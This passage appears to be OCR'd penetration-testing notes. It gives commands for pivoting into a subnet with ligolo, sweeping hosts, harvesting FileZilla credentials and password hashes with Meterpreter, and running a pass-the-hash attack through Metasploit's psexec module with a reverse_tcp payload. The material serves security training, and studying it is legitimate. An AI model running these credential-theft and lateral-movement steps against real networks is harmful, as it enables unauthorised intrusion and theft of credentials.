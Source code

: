 ```bash

#7.Add Route to New Subnet on Kali**:  
`sudo ip route add 192.168.79.0/24 dev ligolo-2`  

#8.Ping Sweep to Discover Hosts:  
for i in {1..254} ;do (ping -c 1 192.168.79.$i | grep "from" &) ;done 


```
## Exploitation  
#### extract credentials
```bash
# extract cred of clint service/ softwares
meterpreter > run post/multi/gather/filezilla_client_cred

```

#### Pass-the-Hash Attack
- **Weakness**: Windows authentication protocols allow users to log in using hashed versions of passwords (NT or LM hashes) instead of cleartext passwords.  
- **Attack Vector**: If the same password is used across multiple machines, obtaining the hash from one host grants access to others, even without knowing the actual password.

* **Tools for Pass-the-Hash**  
- Metasploit and other tools are available to exploit this Windows weakness.  
- You only need the hashes, not the cracked passwords.

* **Dumping Hashes**  
- **Command**:  
  ```bash
  meterpreter > hashdump
  ```

* **Pass-the-Hash with Metasploit (psexec Module)**  
To run a pass-the-hash attack using the `psexec` module:

- **Configure the Module**:
  - **RHOST**: Target host (e.g., 10.10.10.5)
  - **SMBUser**: User account (e.g., els)
  - **SMBPass**: Password hash
  - **Payload**: Meterpreter or custom payload

- **Commands**:
  ```bash
  use exploit/windows/smb/psexec
  set RHOST 10.10.10.5
  set SMBUser els
  set SMBPass <NTLM hash>
  set PAYLOAD windows/meterpreter/reverse_tcp
  run
  ```

* **Post-Exploitation After Successful Exploit**  
Once you have a meterpreter session on a new machine, repeat the post-exploitation process to gather more information (e.g., services, hosts, networks).  

* **Notes**  
- Use proxychains with socks4a to pivot exploits if Metasploit doesn't have a module for the specific vulnerability.
- 
